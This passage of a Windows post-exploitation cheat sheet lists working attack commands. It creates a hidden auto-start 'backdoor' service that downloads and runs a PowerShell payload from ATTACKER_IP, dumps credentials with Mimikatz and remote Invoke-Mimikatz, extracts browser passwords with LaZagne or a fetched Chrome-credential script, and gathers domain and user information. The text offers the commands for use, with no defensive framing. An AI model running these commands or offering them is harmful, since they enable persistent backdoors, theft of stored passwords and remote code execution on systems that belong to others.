 #### Service Persistence
```powershell
# Create a backdoor service
sc create backdoor binpath= "cmd.exe /c powershell.exe -WindowStyle hidden -c 'IEX(New-Object Net.WebClient).DownloadString(''http://ATTACKER_IP/payload.ps1'')'"
sc config backdoor start= auto
net start backdoor
```

### Information Gathering

#### Dumping Credentials
```powershell
# Using Mimikatz
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
lsadump::secrets
kerberos::list

# PowerShell alternative
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'sekurlsa::logonpasswords'"
```

#### Extract Browser Data
```powershell
# Using LaZagne
LaZagne.exe all

# PowerShell alternative for Chrome
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dpnishant/shellcode/master/scripts/GetChromeCreds.ps1')"
```

#### Collect System Information
```powershell
# Network information
ipconfig /all > C:\temp\network_info.txt
netstat -ano > C:\temp\netstat_info.txt

# User information
net user > C:\temp\users.txt
net localgroup > C:\temp\groups.txt

# Domain information (if applicable)
nltest /domain_trusts > C:\temp\domain_trusts.txt
net group "Domain Admins" /domain > C:\temp\domain_admins.txt

# Installed software
wmic product get name,version > C:\temp\installed_software.txt
```
